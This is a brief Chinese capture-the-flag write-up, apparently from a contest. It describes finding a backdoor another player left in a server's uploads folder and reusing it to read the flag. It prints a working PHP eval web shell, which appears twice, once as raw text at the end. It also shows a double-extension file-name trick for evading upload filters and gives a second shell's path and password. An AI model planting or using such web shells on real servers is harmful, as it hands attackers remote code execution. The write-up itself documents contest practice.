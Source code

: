 ![1539347922000](writeup.assets/1539347922000.png)

### 0x01 发现dalao留的后门

http://114.55.36.69:6663/uploads/

### 0x02 直接用大佬的后门

以`a.php;.jpg`为例，查看后门密码

```html
<script language="pHp">@eval($_POST['sb'])</script>
```

菜刀连接，查看flag

/flag

或者大马`http://114.55.36.69:6663/uploads/shell.php.jpg?` 密码admin

<script language="pHp">@eval($_POST['sb'])</script>